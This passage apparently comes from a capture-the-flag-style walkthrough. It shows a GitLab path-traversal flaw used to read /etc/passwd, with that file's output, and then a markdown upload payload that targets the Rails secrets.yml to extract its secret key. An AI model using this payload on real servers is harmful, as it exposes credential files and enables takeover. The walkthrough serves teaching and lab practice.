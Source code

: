 And we get `/etc/passwd` from that attached file that we can download to our box.

```
[manjaro@core gitlab]$ cat passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
```
Now since we proved that the exploit worked, let's try and read the secrets file of rails which is located in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` to get the **secret_key**.

Let's run that exploit again but the use the rails config file as the file to read.
```markdown
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```

Do the exact same thing that we did when reading `/etc/passwd` and we should be able to download that secrets file.

![secret-key](./img/secret-key.png)
